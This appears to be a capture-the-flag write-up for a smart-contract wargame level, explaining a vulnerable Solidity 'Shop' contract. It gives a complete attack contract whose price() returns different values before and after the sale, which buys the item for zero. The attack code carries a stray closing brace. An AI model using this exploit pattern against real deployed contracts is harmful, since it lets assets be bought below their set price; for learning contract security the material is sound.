 # Task

Сan you get the item from the shop for less than the price asked?

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
The contract, `Shop`, allows an external contract implementing the `Buyer` interface to buy an item if the buyer's price meets or exceeds the item's price and the item is not already sold.

- **`price`**: Initial price set to 100.
- **`isSold`**: Tracks if the item is sold.
- **`buy()` function**: Checks if the buyer's `price()` (from the external `Buyer` contract) is equal to or higher than the current price and if the item is not sold. If true, the item is marked as sold, and the price is updated to the buyer's price.

The contract is intended for interaction with a `Buyer` contract that returns a price.

Let me explain the condition again

```sol
if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
```
For the first condition to evaluate as true, the initial call to the `price()` function must return a value greater than or equal to the current `price`. Afterward, the function is called again within the block, and the `price` is updated accordingly.

So summary of what we need to do is 

1. set `isSold` to true
2. set `price` < 100

Below is the attack contract

```sol
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.17;

import "./shop.sol";

contract shopAttack is Buyer{
    Shop public buyer;

    constructor(address _targetaddr) {
        buyer = Shop(_targetaddr);
    }

    function buy() public {
        buyer.buy();
    }

    function price() public view override returns(uint) { 
        if (buyer.isSold()) {
            return 0;
        } else {
            return 100;
        }

        // the if statement can be written in a shorter form
        // return buyer.isSold() ? 0 :100;
    }
}


}
```
Explainint this attack contract

- **`buyer`**: An instance of the `Shop` contract, passed in during deployment.
- **`buy()`**: Calls the `buy()` function in the `Shop` contract.
- **`price()`**: Overrides the `price()` function from the `Buyer` interface. It returns `100` before the item is sold and `0` after the item is sold. This allows it to pass the condition to buy the item by pretending to match the price (100), then once `isSold` is true, it returns `0` to finalize the transaction at a lower price.


Lets deploy the attack contract using forge

![image](https://github.com/user-attachments/assets/855d39bb-f7ed-4c31-8725-27afc906aa51)

We've successfully compiled the attack contract and we got the contract address to be `0xb1b1d2b475d99c93d6D1c7AD1303B3C3a1BF134f`

Lets start out by calling the `price()` function in the attack contract

![image](https://github.com/user-attachments/assets/c9cc99f1-8ee7-4cfd-8898-3810f1d7b562)

We have the value of `100`

To pass the if conditional statement, we'll call the `buy()` function

![image](https://github.com/user-attachments/assets/059061ca-7da0-4004-9f70-565e56dcbaea)

Now, lets call the `price()` function again

![image](https://github.com/user-attachments/assets/17e15167-c75a-479b-91bf-b012223d9a4a)

Our price already reset to zero

Submitting the instance

![image](https://github.com/user-attachments/assets/9fb3c454-c19b-4662-9014-fd5990399aac)

We have successfully completed this level

-------------------------

Till Next Time :xD























